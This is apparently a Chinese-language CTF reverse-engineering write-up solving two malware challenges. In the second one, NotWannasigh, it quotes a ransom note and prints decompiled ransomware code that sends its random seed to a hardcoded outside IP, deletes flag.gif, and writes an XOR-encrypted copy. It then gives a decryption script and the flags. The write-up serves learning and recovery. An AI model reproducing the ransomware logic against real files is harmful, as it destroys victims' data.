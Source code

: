 这次的比赛只有两道re，全都是malware，不难，也还挺有意思

#### danger-Live-and-Malicious-Code

病毒的代码里面混进了flag，js的语法也不是特别懂，发现了很多处理字符串的函数，所以干脆`console.log`都输出了出来，发现输出的`url`中间夹了flag

```
WPI{Oh_nose_procoding_detected}
```



#### NotWannasigh

首先看下`ransom note`

```
Haha! Your precious file flag.gif has been encrypted by my new and improved ransomware NotWannasigh! You must send bitcoin to "bitpay.com/83768" to get the decryption key. You should act fast because in 48 hours I will delete the key. Muahahahaha!
 - def-not-h4ckah

(Hi, CTF challenge creator here. You should _NEVER_ pay the ransom. If you send bitcoin to that BTC wallet then you will ONLY be donating to charity (and hey, that's really nice of you, Mental Health Hackers is a great organization). I will NOT send you the decryption key)
```

题目中所给的`flag-gif.EnCiPhErEd`应该就是加密过的文件，解密就可以得到flag，给的流量包暂时不知道作用是什么，干脆先看看程序的实现

```c++
*(_QWORD *)seed = time(0LL);
  srand(seed[0]);
  fd = socket(2, 1, 0);
  if ( fd == -1 )
  {
    puts("could not create socket");
  }
  else
  {
    puts("created socket");
    *(_DWORD *)&addr.sa_data[2] = inet_addr("108.61.127.136");
    addr.sa_family = 2;
    *(_WORD *)addr.sa_data = htons(0x50u);
    if ( connect(fd, &addr, 0x10u) >= 0 )
    {
      puts("connected");
      sprintf(&s, "%d", *(_QWORD *)seed);
      if ( send(fd, &s, 0xAuLL, 0) >= 0 )
        puts("sent");
      else
        puts("send failed");
    }
    else
    {
      puts("connect error");
    }
  }
```

先根据当前时间生成了一个随机数种子，然后进行通信，把这个种子发给了一个ip，这个种子肯定是后面生成随机数用的，所以肯定是有用的，这也就是流量包的作用，根据流量信息可以获得这个随机数种子的值`1585599106`

下面生成了一个随机数序列

```c++
  puts("targetting flag.gif");
  stream = fopen("flag.gif", "r+");
  fseek(stream, 0LL, 2);
  v19 = ftell(stream);
  fseek(stream, 0LL, 0);
  printf("fileSize = %d\n", (unsigned int)v19);
  v18 = v19 - 1LL;
  v8 = v19;
  v9 = 0LL;
  v3 = alloca(16 * ((v19 + 15LL) / 0x10uLL));
  v17 = &v6;
  for ( i = 0; i < v19; ++i )
    *((_BYTE *)v17 + i) = rand();
  puts("key generated by 256");
```

生成了key，下面是加密过程

```c++
for ( j = 0; ; ++j )
  {
    v14 = fgetc(stream);
    if ( j >= v19 )
      break;
    *((_BYTE *)v15 + j) = v14 ^ *((_BYTE *)v17 + j);
  }
  fclose(stream);
  remove("flag.gif");
  v13 = fopen("flag-gif.EnCiPhErEd", "w+");
  for ( k = 0; k < v19; ++k )
    fputc(*((unsigned __int8 *)v15 + k), v13);
  fclose(v13);
```

简单异或之后写入文件，所以生成随机数序列之后再异或回来就好了

```c++
#include <iostream>
#include <cstdio>
using namespace std;
int main()
{
    srand(1585599106);
    FILE *s = fopen("../flag-gif.EnCiPhErEd", "r");
    int index = 0;
    FILE *f = fopen("../flag.gif", "w+");
    while (!feof(s))
    {
        int uVar1 = rand()&0xff;
        int8_t tmp2=fgetc(s);
        int8_t tmp = uVar1 ^ tmp2;
        fputc(tmp, f);
        index = (int32_t)index + 1;
    }

    fclose(s);
    fclose(f);
    return 0;
}
```

这个脚本要在linux下跑，因为win的随机数生成的不一样

得到了含有flag的gif

![flag](_images/WPICTF-re-wp/flag.gif)

flag有点难读，第一遍还读错了一位

```
WPI{It_always_feels_a_little_weird_writing_malware}
```

